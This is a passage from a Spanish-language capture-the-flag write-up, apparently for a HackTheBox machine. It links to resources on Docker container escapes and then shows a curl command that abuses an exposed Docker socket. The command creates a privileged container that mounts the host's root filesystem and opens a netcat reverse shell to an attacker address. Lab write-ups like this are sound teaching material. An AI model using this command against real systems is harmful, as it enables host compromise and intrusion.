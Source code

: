 * [A tale of escaping a hardened docker container - RedTimmy.com](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/).
* [Understanding security risks of running docker containers - Ctl.io](https://www.ctl.io/developers/blog/post/tutorial-understanding-the-security-risks-of-running-docker-containers).
* [Abusing Docker API - SecurityBoulevard.com](https://securityboulevard.com/2019/02/abusing-docker-api-socket/).

Este último tiene varios links también de apoyo con lindas referencias, miraremos una de ellas:

* [Owning system through exposed docker engine - Cert.litnet.lt](https://cert.litnet.lt/2016/11/owning-system-through-an-exposed-docker-engine/).

En él nos muestra como obtener ejecución de comandos mediante la creación de un contenedor además de hacer una montura sobre la carpeta que le indiquemos; nosotros usaremos la imagen de `sandbox` para la creación del contenedor:

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" http://localhost/containers/create?name=entramosOno -d '{"Image":"sandbox", "Cmd":["/usr/bin/nc", "10.10.14.218", "4435", "-e", "/bin/sh"], "Binds": [ "/:/montadoPA" ], "Privileged": true}'
```

Entonces, le indicamos que nos cree un `container` con el nombre `entramosOno`, que use la imagen `sandbox` y que cuando se ejecute haga una petición mediante `nc` a nuestra máquina para obtener una shell. Además de montar la raíz (`/`) del sistema sobre la ruta `montadoPA` del contenedor :)

Démosle:

![274bash_dockersock_shell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/feline/274bash_dockersock_shell.png)
